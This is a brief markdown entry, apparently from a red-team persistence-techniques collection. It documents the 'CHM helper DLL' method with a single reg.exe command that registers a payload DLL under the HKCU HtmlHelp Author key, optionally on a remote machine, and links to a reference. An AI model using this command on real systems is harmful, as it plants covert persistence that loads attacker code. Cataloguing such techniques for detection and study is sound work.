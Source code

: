 # CHM Helper DLL

## 01 - Command Prompt

```
C:\> reg.exe add "[\\<IP>\]HKCU\Software\Microsoft\HtmlHelp Author" /t REG_SZ /v location /d "C:\path\to\payload.dll"
```

---
## References

- [Persistence Info: `.chm` helper DLL](https://persistence-info.github.io/Data/htmlhelpauthor.html)